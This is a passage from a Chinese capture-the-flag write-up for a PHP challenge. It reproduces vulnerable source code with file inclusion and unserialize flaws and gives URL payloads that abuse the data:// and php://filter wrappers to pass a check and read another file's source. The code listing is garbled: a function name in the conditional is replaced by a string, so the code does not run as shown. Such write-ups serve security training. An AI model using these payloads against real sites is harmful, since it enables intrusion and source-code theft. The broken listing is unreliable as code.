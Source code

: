 ### 解题流程

#### 源码

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(welcome to the zjctf($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

#### 绕过点一

首先需要使用`PHP伪协议`来控制输入流，使得`$text`读取到的内容是`welcome to the zjctf`

`file_get_contents()`是触发`PHP伪协议`的函数之一，可以搭配`data://`来输入`welcome to the zjctf`

```
payload：?text=data://text/plain,welcome to the zjctf
```

<img src="CTF.assets/image-20230708102817856.png" alt="image-20230708102817856" style="zoom:50%;" />

#### 绕过点二

`$password = unserialize($password);` 存在反序列化的可能性

` include($file);  //useless.php`这里也暗示了要包含`useless.php`

首先使用`php://filter`来读取`useless.php`源码，`include()`函数来触发`PHP伪协议`

```
payload：?text=data://text/plain,welcome to the zjctf&file=php://filter/read=convert.base64-encode/resource=useless.php
```
